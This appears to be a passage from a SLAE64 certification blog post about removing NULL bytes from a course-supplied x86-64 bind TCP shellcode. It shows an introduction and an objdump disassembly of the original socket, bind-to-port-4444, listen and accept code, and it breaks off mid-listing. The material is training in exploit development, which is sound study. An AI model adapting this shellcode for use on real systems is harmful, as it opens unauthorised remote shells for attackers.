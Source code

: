 ```yaml
---
title: SLAE64 - Assignment 1B - Null-Free Bind TCP Shellcode 
author: fwinsnes
date: 2021-01-21 13:44:00 +0800
categories: [SLAE64]
tags: [assembly, shellcoding]
---
```


#### Introduction

These series of posts starting with the prefix "SLAE64 - Assignment" will be created in order to fulfill the requirements of the SLAE64 certification.

A Bind shell is a form of malware which grants remote access to a system through a shell. However, it differentiates from its peer the Reverse Shell, binding to a local port of 
the compromised system, instead of arranging a specific connection on a trivial address. Furthermore, after the connection is established, a shell is executed, granting 
interaction to the attacker.

The first assignment from the seven is divided in two sections:

+ A: Requires the creation of a Bind Shell with password protection through the Assembly language, and converting such into shellcode. 
+ B: Requires the alteration of the provided Bind Shell during the course, in order that it no longer possesses any form of NULL bytes (00). 

Due to the reason that in the [previous](https://whitecr0wz.github.io/posts/SLAE64-Bind-Password/) post the first section of the exercise was tackled, this post will be focused 
towards the secondary task.

Let's analyze the Bind Shell given during the course:

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B/og$ objdump -D 1.o -M intel

1.o:     file format elf64-x86-64                                                                                                                                                 

Disassembly of section .text:


0000000000000000 <_start>:
   0:   b8 29 00 00 00          mov    eax,0x29
   5:   bf 02 00 00 00          mov    edi,0x2
   a:   be 01 00 00 00          mov    esi,0x1
   f:   ba 00 00 00 00          mov    edx,0x0
  14:   0f 05                   syscall 
  16:   48 89 c7                mov    rdi,rax
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   89 44 24 fc             mov    DWORD PTR [rsp-0x4],eax
  21:   66 c7 44 24 fa 11 5c    mov    WORD PTR [rsp-0x6],0x5c11
  28:   66 c7 44 24 f8 02 00    mov    WORD PTR [rsp-0x8],0x2
  2f:   48 83 ec 08             sub    rsp,0x8
  33:   b8 31 00 00 00          mov    eax,0x31
  38:   48 89 e6                mov    rsi,rsp
  3b:   ba 10 00 00 00          mov    edx,0x10
  40:   0f 05                   syscall 
  42:   b8 32 00 00 00          mov    eax,0x32
  47:   be 02 00 00 00          mov    esi,0x2
  4c:   0f 05                   syscall 
  4e:   b8 2b 00 00 00          mov    eax,0x2b
  53:   48 83 ec 10             sub    rsp,0x10
  57:   48 89 e6                mov    rsi,rsp
  5a:   c6 44 24 ff 10          mov    BYTE PTR [rsp-0x1],0x10
```